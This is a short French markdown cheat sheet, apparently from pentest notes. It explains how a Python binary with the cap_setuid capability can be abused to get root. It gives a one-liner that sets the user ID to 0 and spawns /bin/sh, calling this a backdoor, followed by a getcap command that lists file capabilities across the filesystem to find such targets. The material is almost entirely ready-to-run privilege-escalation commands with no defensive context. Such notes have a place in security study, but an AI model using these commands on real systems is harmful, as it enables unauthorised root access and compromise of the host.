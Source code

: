 # Exploit sur Python
Si **cap_setuid** est positionné sur Python, on peut utiliser en tant que backdoor pour passer en root :
```bash
./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

# Lister les capacités
```bash
getcap -r / 2>/dev/null
```

